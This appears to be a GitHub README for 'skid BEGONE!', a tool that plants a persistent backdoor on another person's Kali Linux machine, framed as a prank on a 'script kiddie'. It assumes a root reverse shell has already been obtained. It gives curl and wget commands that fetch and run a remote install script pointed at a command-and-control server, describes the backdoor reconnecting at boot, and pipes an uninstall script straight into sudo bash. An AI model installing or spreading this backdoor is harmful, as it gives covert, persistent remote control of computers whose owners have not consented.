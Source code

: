# skid BEGONE!

How to backdoor a script kiddie's Kali Linux install within seconds.

This assumes that the skid is at [peak mt. stupid](DK-effect.png) and thinks that the ping command can DDOS NASA's supercomputers.

## Using the backdoor

### Preconditions

- skid must be a wannabe hacker (see assumption above)
- you must obtain a root reverse-shell

### Actually running the script

```sh
curl -sSL https://raw.githubusercontent.com/GermanBread/skid-begone/master/install.sh > /tmp/install.sh
bash /tmp/install.sh <IP OF THE C&C server> <FREE PORT ON THE C&C SERVER>
```

alternatively with wget:

```sh
wget -qq https://raw.githubusercontent.com/GermanBread/skid-begone/master/install.sh -O /tmp/install.sh
bash /tmp/install.sh <IP OF THE C&C server> <FREE PORT ON THE C&C SERVER>
```

By default the backdoor will start alongside other system services. If the service can't connect to the command and control server, it will wait for a few seconds and reconnect immediately after.

### Uninstalling

```sh
curl -sSL https://raw.githubusercontent.com/GermanBread/skid-begone/master/undo.sh | sudo bash
```

alternatively with wget:

```sh
wget -qq https://raw.githubusercontent.com/GermanBread/skid-begone/master/undo.sh -O - | sudo bash
```